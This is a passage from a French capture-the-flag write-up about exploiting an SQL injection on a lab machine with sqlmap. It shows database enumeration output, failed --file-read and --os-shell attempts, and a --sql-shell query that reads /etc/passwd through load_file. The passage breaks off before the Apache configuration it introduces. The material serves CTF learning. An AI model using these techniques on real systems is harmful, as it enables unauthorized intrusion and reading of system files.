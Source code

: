 Les options d'énumération de *sqlmap* fonctionnent bien et permettent de récolter les informations suivantes :  

```plain
current user:    'root@localhost'
current database:    'madness'

Database: madness                                                                                                                                                                                             
[1 table]
+------+
| bots |
+------+

Database: madness                                                                                                                                                                                             
Table: bots
[9 columns]
+-------------+--------------+
| Column      | Type         |
+-------------+--------------+
| User        | varchar(255) |
| version     | varchar(6)   |
| command     | varchar(255) |
| id          | varchar(255) |
| last_ip     | varchar(15)  |
| last_online | int(10)      |
| new         | tinyint(1)   |
| OS          | varchar(10)  |
| regdate     | datetime     |
+-------------+--------------+
```

En revanche un accès au fichier via *--file-read* n'aboutit pas et *--os-shell* échoue.  

Seul bon point, *--sql-shell* fonctionne et nous permet malgré tout d’accéder aux fichiers sur le disque (en tant que l'utilisateur mysql).  

Voici un exemple d'output (volontairement réduit) :  

```sql
sql-shell> select load_file('/etc/passwd');
[23:34:40] [INFO] fetching SQL SELECT statement query output: 'select load_file('/etc/passwd')'
select load_file('/etc/passwd');:    'root:x:0:0:root:/root:/bin/bash\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbotter:x:1000:1000:botter,,,:/home/botter:/bin/bash\n'
```

La lecture de */etc/apache2/apache2.conf* n'apporte bien de bien intéressant. Il aura fallut faire une recherche Google pour déterminer le nom du fichier de configuration par défaut utilisé sous *Debian Jessie*, le système sur lequel tourne ce CTF : */etc/apache2/sites-enabled/000-default.conf*.  

On obtient la configuration suivante :  
